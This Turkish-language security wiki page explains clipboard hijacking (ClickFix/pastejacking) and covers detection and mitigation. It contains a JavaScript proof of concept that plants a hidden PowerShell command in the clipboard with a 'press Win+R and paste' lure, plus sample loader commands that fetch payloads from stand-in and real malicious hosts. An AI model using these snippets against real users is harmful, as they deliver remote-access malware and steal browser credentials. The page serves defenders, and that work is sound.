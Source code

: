 # Clipboard Hijacking (Pastejacking) Attacks

{{#include ../../banners/hacktricks-training.md}}

> "Kendiniz kopyalamadığınız hiçbir şeyi yapıştırmayın." – eski ama hala geçerli bir tavsiye

## Overview

Clipboard hijacking – ayrıca *pastejacking* olarak da bilinir – kullanıcıların komutları incelemeden kopyalayıp yapıştırma alışkanlıklarından faydalanır. Kötü niyetli bir web sayfası (veya Electron veya masaüstü uygulaması gibi herhangi bir JavaScript uyumlu bağlam) programatik olarak saldırgan kontrolündeki metni sistem panosuna yerleştirir. Kurbanlar, genellikle dikkatlice hazırlanmış sosyal mühendislik talimatlarıyla, **Win + R** (Çalıştır penceresi), **Win + X** (Hızlı Erişim / PowerShell) tuşlarına basmaları veya bir terminal açıp *panodaki* içeriği yapıştırmaları için teşvik edilir, bu da hemen rastgele komutların yürütülmesini sağlar.

**Hiçbir dosya indirilmediği ve hiçbir ek açılmadığı için**, bu teknik, ekleri, makroları veya doğrudan komut yürütmeyi izleyen çoğu e-posta ve web içerik güvenlik kontrolünü atlar. Bu nedenle, saldırı, NetSupport RAT, Latrodectus yükleyici veya Lumma Stealer gibi ticari kötü amaçlı yazılım ailelerini dağıtan phishing kampanyalarında popülerdir.

## JavaScript Proof-of-Concept
```html
<!-- Any user interaction (click) is enough to grant clipboard write permission in modern browsers -->
<button id="fix" onclick="copyPayload()">Fix the error</button>
<script>
function copyPayload() {
const payload = `powershell -nop -w hidden -enc <BASE64-PS1>`; // hidden PowerShell one-liner
navigator.clipboard.writeText(payload)
.then(() => alert('Now press  Win+R , paste and hit Enter to fix the problem.'));
}
</script>
```
Eski kampanyalar `document.execCommand('copy')` kullanıyordu, yenileri ise asenkron **Clipboard API** (`navigator.clipboard.writeText`) kullanıyor.

## ClickFix / ClearFake Akışı

1. Kullanıcı bir yazım hatası yapılmış veya ele geçirilmiş bir siteyi ziyaret eder (örneğin `docusign.sa[.]com`)
2. Enjekte edilmiş **ClearFake** JavaScript, sessizce Base64 kodlu bir PowerShell tek satırlık komutunu panoya kaydeden `unsecuredCopyToClipboard()` yardımcı fonksiyonunu çağırır.
3. HTML talimatları kurbanı şunları yapmaya yönlendirir: *“**Win + R** tuşlarına basın, komutu yapıştırın ve sorunu çözmek için Enter'a basın.”*
4. `powershell.exe` çalıştırılır, meşru bir yürütülebilir dosya ile kötü niyetli bir DLL içeren bir arşiv indirir (klasik DLL yan yükleme).
5. Yükleyici ek aşamaları şifre çözer, shellcode enjekte eder ve kalıcılığı kurar (örneğin, planlanmış görev) – nihayetinde NetSupport RAT / Latrodectus / Lumma Stealer'ı çalıştırır.

### Örnek NetSupport RAT Zinciri
```powershell
powershell -nop -w hidden -enc <Base64>
# ↓ Decodes to:
Invoke-WebRequest -Uri https://evil.site/f.zip -OutFile %TEMP%\f.zip ;
Expand-Archive %TEMP%\f.zip -DestinationPath %TEMP%\f ;
%TEMP%\f\jp2launcher.exe             # Sideloads msvcp140.dll
```
* `jp2launcher.exe` (meşru Java WebStart) dizininde `msvcp140.dll` arar.
* Kötü niyetli DLL, **GetProcAddress** ile API'leri dinamik olarak çözer, **curl.exe** aracılığıyla iki ikili dosya (`data_3.bin`, `data_4.bin`) indirir, bunları bir döngü XOR anahtarı `"https://google.com/"` kullanarak şifrelerini çözer, son shellcode'u enjekte eder ve **client32.exe** (NetSupport RAT) dosyasını `C:\ProgramData\SecurityCheck_v1\` dizinine çıkarır.

### Latrodectus Loader
```
powershell -nop -enc <Base64>  # Cloud Identificator: 2031
```
1. **curl.exe** ile `la.txt` indirir
2. **cscript.exe** içinde JScript indiricisini çalıştırır
3. MSI yükleyicisini alır → imzalı bir uygulamanın yanına `libcef.dll` bırakır → DLL yan yükleme → shellcode → Latrodectus.

### Lumma Stealer MSHTA aracılığıyla
```
mshta https://iplogger.co/xxxx =+\\xxx
```
**mshta** çağrısı, `PartyContinued.exe`'yi alıp, `Boat.pst`'yi (CAB) çıkartarak, `AutoIt3.exe`'yi `extrac32` ve dosya birleştirmesi ile yeniden yapılandıran ve nihayetinde tarayıcı kimlik bilgilerini `sumeriavgv.digital`'a dışarı aktaran bir `.a3x` scripti çalıştıran gizli bir PowerShell scriptini başlatır.

## Tespit ve Avlanma

Mavi takımlar, yapıştırma istismarı tespit etmek için panoya, işlem oluşturma ve kayıt defteri telemetrisini birleştirebilir:

* Windows Kayıt Defteri: `HKCU\Software\Microsoft\Windows\CurrentVersion\Explorer\RunMRU`, **Win + R** komutlarının bir geçmişini tutar – alışılmadık Base64 / obfuscate edilmiş girişleri arayın.
* Güvenlik Olay ID **4688** (İşlem Oluşturma) burada `ParentImage` == `explorer.exe` ve `NewProcessName` { `powershell.exe`, `wscript.exe`, `mshta.exe`, `curl.exe`, `cmd.exe` } içinde.
* Olay ID **4663**, şüpheli 4688 olayından hemen önce `%LocalAppData%\Microsoft\Windows\WinX\` veya geçici klasörler altında dosya oluşturma için.
* EDR pano sensörleri (varsa) – `Clipboard Write` ile hemen ardından yeni bir PowerShell işlemi arasında ilişki kurun.

## Azaltmalar

1. Tarayıcı güçlendirme – pano yazma erişimini devre dışı bırakın (`dom.events.asyncClipboard.clipboardItem` vb.) veya kullanıcı jesti gerektirin.
2. Güvenlik farkındalığı – kullanıcılara hassas komutları *yazmayı* veya önce bir metin editörüne yapıştırmayı öğretin.
3. PowerShell Kısıtlı Dil Modu / İcra Politikası + Uygulama Kontrolü, keyfi tek satırlık komutları engellemek için.
4. Ağ kontrolleri – bilinen yapıştırma istismarı ve kötü amaçlı yazılım C2 alanlarına giden istekleri engelleyin.

## İlgili Hileler

* **Discord Davet Hijacking**, kullanıcıları kötü niyetli bir sunucuya çekmenin ardından aynı ClickFix yaklaşımını sıklıkla istismar eder:

{{#ref}}
discord-invite-hijacking.md
{{#endref}}

## Referanslar

- [Tıklamayı Düzelt: ClickFix Saldırı Vektörünü Önleme](https://unit42.paloaltonetworks.com/preventing-clickfix-attack-vector/)
- [Pastejacking PoC – GitHub](https://github.com/dxa4481/Pastejacking)

{{#include ../../banners/hacktricks-training.md}}
